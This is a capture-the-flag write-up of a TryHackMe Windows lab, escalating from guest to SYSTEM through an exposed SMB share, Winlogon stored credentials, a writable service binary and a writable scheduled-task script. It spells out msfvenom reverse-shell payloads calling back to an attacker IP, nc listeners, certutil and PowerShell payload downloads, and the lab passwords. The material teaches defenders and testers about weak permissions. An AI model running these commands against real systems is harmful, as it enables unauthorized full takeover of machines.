# Windows Privilege Escalation — Guest → SYSTEM

## Overview

This TryHackMe lab demonstrates a multi-stage Windows privilege-escalation chain:

```text
guest
  ↓
thmuser
  ↓
notadmin
  ↓
svcadmin
  ↓
SYSTEM
```

Each stage uses a different weakness:

```text
Guest SMB access
      ↓
Exposed credentials
      ↓
Winlogon stored credentials
      ↓
Weak service/file permissions
      ↓
Service binary hijacking
      ↓
Weak scheduled-task file permissions
      ↓
SYSTEM reverse shell
```

### Lab Information

```text
Attacker / AttackBox IP: 10.49.121.220
Target IP:               10.49.184.124
```

---

# 1. Flag 1 — Guest SMB Enumeration

## Objective

Start from guest access and find information exposed through SMB.

### Step 1 — Enumerate SMB shares

From the AttackBox:

```bash
smbclient -N -L //10.49.184.124
```

Important options:

```text
-N
```

Do not ask for a password.

```text
-L
```

List the available SMB shares.

The target returned:

```text
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
Public          Disk      Public file share
```

The interesting share was:

```text
Public
```


---

## Step 2 — Connect to the Public share

```bash
smbclient -N //10.49.184.124/Public
```

Inside the SMB session:

```text
ls
```

The share contained:

```text
welcome.txt
```

Download it:

```text
get welcome.txt
```

Exit SMB:

```text
exit
```

Read the file from Kali:

```bash
cat welcome.txt
```

The file revealed:

```text
Welcome to CORP-NET.

New employee default credentials
================================
Username : thmuser
Password : {Redacted}
```

### Important lesson

A guest-readable SMB share can expose:

- Credentials
    
- Internal information
    
- Configuration files
    
- Scripts
    
- Backups
    
- Sensitive documents
    

Therefore:

```text
Guest SMB access
      ↓
Enumerate shares
      ↓
Read accessible files
      ↓
Look for credentials
```


---

# 2. Access `thmuser`

The credentials discovered from `welcome.txt` were:

```text
Username: thmuser
Password: {Redacted}
```

The lab uses Windows RDP, so we can log in to the Windows machine as `thmuser`.

Once inside the Windows CMD:

```cmd
whoami
```

Expected:

```text
privesc\thmuser
```


---

# 3. Flag 1

The first flag was located on the `thmuser` desktop.

Navigate there:

```cmd
cd C:\Users\thmuser\Desktop
```

List the files:

```cmd
dir
```

We found:

```text
flag1.txt
```

Read it:

```cmd
type flag1.txt
```

### Windows CMD vs Linux

In Windows CMD:

```cmd
dir
```

is commonly used instead of:

```bash
ls
```

For reading a text file:

```cmd
type filename.txt
```

is commonly used instead of:

```bash
cat filename.txt
```

---

# 4. Flag 2 — Winlogon Credential Enumeration

The next objective was to become:

```text
notadmin
```

and obtain:

```text
flag2.txt
```

Initially, the file was visible:

```text
C:\Users\notadmin\Desktop\flag2.txt
```

but attempting to read it as `thmuser` produced:

```text
Access is denied.
```

This confirmed that we needed to actually authenticate as `notadmin`.


---

## Step 1 — Check Winlogon

The lab hint indicated that credentials were stored in the Winlogon registry.

Run:

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

The important entries were:

```text
DefaultUserName    REG_SZ    notadmin
DefaultPassword    REG_SZ    {Redacted}
```

Therefore:

```text
Username: notadmin
Password: {Redacted}
```

### Why this works

Windows Winlogon can store credentials used for automatic logon.

If plaintext credentials are present in:

```text
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

and a low-privileged account can read them, those credentials may allow lateral movement or privilege escalation.

---

# 5. Switch to `notadmin`

From the Windows CMD:

```cmd
runas /user:notadmin cmd.exe
```

Enter:

```text
{Redacted}
```

Verify:

```cmd
whoami
```

Expected:

```text
privesc\notadmin
```

---

# 6. Flag 2

Navigate to:

```cmd
cd C:\Users\notadmin\Desktop
```

List the files:

```cmd
dir
```

We found:

```text
flag2.txt
```

Read it:

```cmd
type flag2.txt
```

This gives **Flag 2**.


---

# 7. `notadmin` Enumeration

Now that we had a shell as `notadmin`, we needed to find a way to become:

```text
svcadmin
```

First check privileges:

```cmd
whoami /priv
```

The account had:

```text
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
```

There was no useful privilege such as:

```text
SeBackupPrivilege
SeTakeOwnershipPrivilege
SeImpersonatePrivilege
```

Therefore, privilege-based escalation was not the intended route.

We moved to **service enumeration**.

---

# 8. Find the Vulnerable Service

Run:

```cmd
wmic service get name,pathname,startname | findstr /i "svcadmin"
```

The important result was:

```text
THMSvc    C:\Windows\THMSVC\svc.exe    .\svcadmin
```

This tells us:

```text
Service:
THMSvc

Executable:
C:\Windows\THMSVC\svc.exe

Service account:
.\svcadmin
```

The important observation is:

> The service runs as `svcadmin`.

If we can modify the executable launched by that service, our code can potentially execute as `svcadmin`.


---

# 9. Service Hijacking

The lab revealed that:

```text
PRIVESC\notadmin:(I)(F)
```

applied to the service directory.

Meaning:

```text
notadmin
   ↓
Full Control
   ↓
C:\Windows\THMSVC
```

Therefore, `notadmin` could replace:

```text
C:\Windows\THMSVC\svc.exe
```

with a malicious executable.

### Key concept

This is a **weak filesystem permission** vulnerability.

The important chain is:

```text
notadmin
   ↓
Can modify service executable
   ↓
THMSvc runs as svcadmin
   ↓
Malicious executable runs as svcadmin
   ↓
svcadmin shell
```

---

# 10. Generate the Service Reverse Shell

On the AttackBox:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.49.121.220 LPORT=4444 -f exe-service -o svc.exe
```

### Explanation

```text
-p
```

Specifies the payload.

```text
windows/x64/shell_reverse_tcp
```

Windows 64-bit reverse TCP shell.

```text
LHOST=10.49.121.220
```

AttackBox IP.

```text
LPORT=4444
```

Port where the reverse shell connects.

```text
-f exe-service
```

Generate an executable suitable for the Windows service scenario.

```text
-o svc.exe
```

Output filename.


---

# 11. Host the Payload

From the AttackBox directory containing `svc.exe`:

```bash
python3 -m http.server 8080
```

This creates a simple HTTP server.

The target can then download:

```text
http://10.49.121.220:8080/svc.exe
```

---

# 12. Start the Reverse Shell Listener

Open another AttackBox terminal:

```bash
nc -lvnp 4444
```

The listener waits for:

```text
Target → AttackBox:4444
```

---

# 13. Replace `svc.exe`

From the Windows session as `notadmin`, download the payload in Powershell:

```powershell
Invoke-WebRequest -Uri "http://10.49.121.220:8080/svc.exe" -OutFile "C:\Windows\THMSVC\svc.exe"
```

The original service executable is now replaced by our payload.

---

# 14. Start the Service

Run:

```cmd
sc start THMSvc
```

The service starts:

```text
THMSvc
   ↓
svc.exe
   ↓
reverse shell
   ↓
AttackBox:4444
```

On the AttackBox listener, we receive the shell.

Verify:

```cmd
whoami
```

Expected:

```text
privesc\svcadmin
```

We have now successfully moved:

```text
notadmin → svcadmin
```


---

# 15. Flag 3

Navigate to the `svcadmin` desktop:

```cmd
type C:\Users\svcadmin\Desktop\flag3.txt
```

This gives **Flag 3**.

---

# 16. `svcadmin` → SYSTEM

The final stage uses a **scheduled task**.

The important discovery was:

```text
C:\Windows\Tasks\cleanup.bat
```

The scheduled task executes this script with:

```text
SYSTEM
```

privileges.

The critical question is:

> Can `svcadmin` modify `cleanup.bat`?

Check:

```cmd
cd C:\Windows\Tasks
```

Then:

```cmd
icacls cleanup.bat
```

The lab showed that:

```text
svcadmin
```

had:

```text
(M)
```

Modify permission.

Therefore:

```text
svcadmin
      ↓
Modify cleanup.bat
      ↓
Scheduled task executes cleanup.bat
      ↓
Task runs as SYSTEM
```


---

# 17. Generate the Final Payload

This time we use:

```text
-f exe
```

instead of:

```text
-f exe-service
```

because `shell.exe` will be executed normally by a batch script.

On the AttackBox:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.49.121.220 LPORT=4445 -f exe -o shell.exe
```

### Important distinction

```text
Service executable:
-f exe-service

Normal executable:
-f exe
```

---

# 18. Host `shell.exe`

Start the HTTP server from the directory containing `shell.exe`:

```bash
python3 -m http.server 8080
```

---

# 19. Start the Final Listener

Open another AttackBox terminal:

```bash
nc -lvnp 4445
```

We now have:

```text
AttackBox
├── HTTP server :8080
└── Reverse shell listener :4445
```

---

# 20. Download `shell.exe`

From the Windows session as `svcadmin`:

```cmd
certutil -urlcache -split -f http://10.49.121.220:8080/shell.exe C:\Windows\Tasks\shell.exe
```

Verify:

```cmd
dir C:\Windows\Tasks\shell.exe
```


---

# 21. Hijack `cleanup.bat`

Because `svcadmin` has Modify permission, overwrite the batch file:

```cmd
cmd /c "echo C:\Windows\Tasks\shell.exe > C:\Windows\Tasks\cleanup.bat"
```

Verify:

```cmd
type C:\Windows\Tasks\cleanup.bat
```

Expected:

```text
C:\Windows\Tasks\shell.exe
```

The original script has now been replaced with our command.


---

# 22. Wait for the Scheduled Task

Do not manually run the batch file.

The intended escalation is:

```text
Scheduled Task
      ↓
cleanup.bat
      ↓
shell.exe
      ↓
Runs under SYSTEM
      ↓
Reverse shell
```

Wait for the scheduled task to execute.

The AttackBox listener:

```bash
nc -lvnp 4445
```

should receive the connection.

---

# 23. Confirm SYSTEM

In the new reverse shell:

```cmd
whoami
```

Expected:

```text
nt authority\system
```

This confirms the final privilege escalation.

---

# 24. Flag 4

The final flag is located at:

```text
C:\flag4.txt
```

Read it:

```cmd
type C:\flag4.txt
```

This gives **Flag 4**.


---

# 25. Complete Attack Chain

The complete lab can be summarized as:

```text
                    GUEST
                      │
                      ▼
              Enumerate SMB
                      │
                      ▼
              Public share
                      │
                      ▼
                welcome.txt
                      │
                      ▼
       thmuser : Password1!
                      │
                      ▼
                   thmuser
                      │
                      ▼
             Winlogon registry
                      │
                      ▼
       notadmin : P@ssw0rd!
                      │
                      ▼
                  notadmin
                      │
                      ▼
          Enumerate Windows services
                      │
                      ▼
                    THMSvc
                      │
                      ▼
       C:\Windows\THMSVC\svc.exe
                      │
             Full Control
                      │
                      ▼
            Replace svc.exe
                      │
                      ▼
                  svcadmin
                      │
                      ▼
            flag3.txt
                      │
                      ▼
          C:\Windows\Tasks
                      │
                      ▼
              cleanup.bat
                      │
                 Modify (M)
                      │
                      ▼
             Replace cleanup.bat
                      │
                      ▼
              Scheduled Task
                      │
                      ▼
                    SYSTEM
                      │
                      ▼
                C:\flag4.txt
```

---

# 26. Important Commands Used

## SMB Enumeration

```bash
smbclient -N -L //10.49.184.124
```

List SMB shares.

```bash
smbclient -N //10.49.184.124/Public
```

Connect to the Public SMB share.

```text
ls
```

List files in the SMB share.

```text
get welcome.txt
```

Download a file.

---

## Windows Enumeration

```cmd
whoami
```

Show current user.

```cmd
whoami /priv
```

Show assigned privileges.

```cmd
dir
```

List files/directories.

```cmd
type flag.txt
```

Read a text file.

```cmd
systeminfo
```

Display Windows system information.

---

## Registry

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

Query Winlogon configuration.

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
```

Query stored username.

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```

Query stored password.

---

## User Switching

```cmd
runas /user:notadmin cmd.exe
```

Launch a process as another user.

---

## Service Enumeration

```cmd
wmic service get name,pathname,startname
```

Enumerate services, executable paths and service accounts.

```cmd
wmic service get name,pathname,startname | findstr /i "svcadmin"
```

Search for services running as `svcadmin`.

```cmd
sc qc THMSvc
```

Display service configuration.

```cmd
sc sdshow THMSvc
```

Display the service security descriptor.

---

## File Permissions

```cmd
icacls C:\Windows\THMSVC
```

Check directory permissions.

```cmd
icacls C:\Windows\THMSVC\svc.exe
```

Check executable permissions.

```cmd
icacls C:\Windows\Tasks\cleanup.bat
```

Check scheduled-task script permissions.

---

## Service Hijacking

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.49.121.220 LPORT=4444 -f exe-service -o svc.exe
```

Generate service-compatible reverse shell.

```bash
python3 -m http.server 8080
```

Host the payload.

```bash
nc -lvnp 4444
```

Listen for the reverse shell.

```powershell
Invoke-WebRequest -Uri "http://10.49.121.220:8080/svc.exe" -OutFile "C:\Windows\THMSVC\svc.exe"
```

Download the replacement service binary.

```cmd
sc start THMSvc
```

Start the vulnerable service.

---

## Scheduled Task Hijacking

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.49.121.220 LPORT=4445 -f exe -o shell.exe
```

Generate normal Windows executable payload.

```bash
python3 -m http.server 8080
```

Host `shell.exe`.

```bash
nc -lvnp 4445
```

Listen for the SYSTEM shell.

```cmd
certutil -urlcache -split -f http://10.49.121.220:8080/shell.exe C:\Windows\Tasks\shell.exe
```

Download the executable.

```cmd
cmd /c "echo C:\Windows\Tasks\shell.exe > C:\Windows\Tasks\cleanup.bat"
```

Replace the writable scheduled-task script.

```cmd
type C:\Windows\Tasks\cleanup.bat
```

Verify the modified script.

```cmd
whoami
```

Confirm the received shell's identity.

```cmd
type C:\flag4.txt
```

Read the final flag.

---

# 27. Key Lessons

## 1. Always enumerate before exploiting

Start with:

```cmd
whoami
whoami /priv
```

Then investigate:

```text
Users
Groups
Services
Scheduled Tasks
Files
Permissions
Software
Registry
Windows version
```

---

## 2. Look for writable privileged resources

A very important Windows privilege-escalation question is:

> What privileged process or task can I modify?

In this lab:

```text
THMSvc
   ↓
runs as svcadmin
   ↓
svc.exe was writable/replacable
```

Then:

```text
Scheduled Task
   ↓
runs as SYSTEM
   ↓
cleanup.bat was writable
```

---

## 3. Understand account context

Always verify which account you are currently using:

```cmd
whoami
```

The lab required several different contexts:

```text
guest
 ↓
thmuser
 ↓
notadmin
 ↓
svcadmin
 ↓
SYSTEM
```

Finding a user's directory does **not** mean you have that user's permissions.

For example:

```text
C:\Users\notadmin\Desktop\flag2.txt
```

was visible to `thmuser`, but:

```cmd
type flag2.txt
```

returned:

```text
Access is denied.
```

We needed to become `notadmin`.

---

## 4. Permissions are often more important than special privileges

`notadmin` did not have a useful privilege such as:

```text
SeBackupPrivilege
SeTakeOwnershipPrivilege
SeImpersonatePrivilege
```

Instead, the escalation came from:

```text
Filesystem permissions
```

Specifically:

```text
notadmin
   ↓
Full Control over service directory
```

Later:

```text
svcadmin
   ↓
Modify permission on cleanup.bat
```

---

# 28. Mental Model for Windows Privilege Escalation

When you obtain a low-privileged Windows shell, think:

```text
             LOW-PRIVILEGED SHELL
                      │
                      ▼
               whoami /priv
                      │
          ┌───────────┴───────────┐
          ▼                       ▼
      Privileges              Permissions
          │                       │
          ▼                       ▼
   Backup/Restore          Files/Folders
   TakeOwnership           Services
   Impersonate              Scheduled Tasks
          │                       │
          └───────────┬───────────┘
                      ▼
              Identify privileged
                 execution
                      │
                      ▼
               Can I modify it?
                      │
                      ▼
                 Replace/abuse
                      │
                      ▼
            Execute as privileged
                 account
                      │
                      ▼
             Administrator/SYSTEM
```

### The key question to remember:

> **What executes with higher privileges, and can my current account modify it?**